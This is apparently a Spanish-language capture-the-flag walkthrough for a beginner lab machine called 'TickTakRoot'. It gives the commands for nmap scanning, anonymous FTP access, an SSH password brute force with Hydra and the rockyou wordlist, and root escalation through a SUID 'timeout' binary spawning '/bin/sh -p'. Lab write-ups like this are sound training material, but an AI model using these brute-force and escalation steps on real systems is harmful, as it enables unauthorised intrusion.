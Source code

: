 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# TickTakRoot

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.66
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/imagen (8).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.66
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/imagen (9).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 21** perteneciente al **servicio FTP**, el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,22,80 -v 192.168.1.66
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/imagen (13).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Ingresamos la IP y nos encontramos la página por defecto de **Apache**.

<figure><img src="../../.gitbook/assets/imagen (12).png" alt=""><figcaption></figcaption></figure>

Entramos al servicio **FTP** de forma anónima por si encontramos algo relevante.

<figure><img src="../../.gitbook/assets/imagen.png" alt=""><figcaption></figcaption></figure>

Listamos el contenido y el directorio **login** que dentro tiene un archivo de texto por lo que nos los descargamos a nuestra máquina local para ver el contenido.

<figure><img src="../../.gitbook/assets/imagen (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (2).png" alt=""><figcaption></figcaption></figure>

Se nos muestra un par de nombres que pueden ser posibles usuarios pero si nos damos cuenta cuando nos hemos conectado por **FTP** se nos muestra el nombre de **Robin** que será el usuario.&#x20;

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l robin -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.66 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **192.168.1.66**.

<figure><img src="../../.gitbook/assets/imagen (7).png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **robin**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh robin@192.168.1.66
```

<figure><img src="../../.gitbook/assets/imagen (3).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/imagen (4).png" alt=""><figcaption></figcaption></figure>

El comando `timeout` se utiliza para ejecutar un comando y finalizarlo si no se completa en un tiempo específico. Sin embargo, este comando puede ser vulnerable a ciertas técnicas de explotación que permiten escalar privilegios. Para más información sobre cómo explotar el comando `timeout` y ejemplos prácticos, puedes consultar la página de [GTFObins](https://gtfobins.github.io/gtfobins/timeout/).

```bash
/usr/bin/timeout_suid 7d /bin/sh -p
```

<figure><img src="../../.gitbook/assets/imagen (6).png" alt=""><figcaption></figcaption></figure>

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
